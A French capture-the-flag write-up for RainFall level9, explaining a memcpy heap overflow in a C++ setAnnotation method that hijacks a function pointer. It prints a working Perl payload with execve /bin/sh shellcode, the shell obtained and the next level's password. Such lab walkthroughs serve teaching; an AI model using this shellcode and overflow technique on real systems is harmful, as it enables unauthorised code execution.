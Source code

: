 # level9

On a un programme en c++ cette fois.

Le programme prend un argument en paramètre.

On a une classe N, et une fonction membre `setAnnotation` qui appelle la fonction `memcpy`.

À la fin du main désassemblé, on observe un appel à la fonction `setAnnotation`.
```as
   0x08048677 <+131>:    call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:    mov    0x10(%esp),%eax
   0x08048680 <+140>:    mov    (%eax),%eax
   0x08048682 <+142>:    mov    (%eax),%edx
   0x08048684 <+144>:    mov    0x14(%esp),%eax
   0x08048688 <+148>:    mov    %eax,0x4(%esp)
   0x0804868c <+152>:    mov    0x10(%esp),%eax
   0x08048690 <+156>:    mov    %eax,(%esp)
   0x08048693 <+159>:    call   *%edx
   0x08048695 <+161>:    mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:    leave  
   0x08048699 <+165>:    ret    
```
On peut overflow la fonction `memcpy` qui copie notre argument sur v6 + 4, et dont l'eip est à `0x804a00c`.

En regardant le passage qui suit l'appel de fonction, on peut observer qu'on prépare le retour de la fonction main : v6 en argument de v4 utilisée comme un pointeur sur fonction.

En regardant l'adresse de $eax à main+136 on retrouve l'adresse `0x804a00c`. Cette adresse est ensuite déréférencée, ce qui l'amène à `0x804a010` (`0x804a00c + 4`), puis chargée sur $edx pour ensuite être appelée en main+159.

On pense donc à charger un payload à cette adresse à la place de l'instruction attendue :
```bash
echo $(perl -e 'print "\x10\xa0\x04\x08"."\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"."A"x83 . "\x0c\xa0\x04\x08";') > /tmp/payload
```

Ce qui nous donne le flag espéré :
```bash
level9@RainFall:~$ echo $(perl -e 'print "\x10\xa0\x04\x08"."\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"."A"x83 . "\x0c\xa0\x04\x08";') > /tmp/payload
level9@RainFall:~$ ./level9 $(cat /tmp/payload)
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
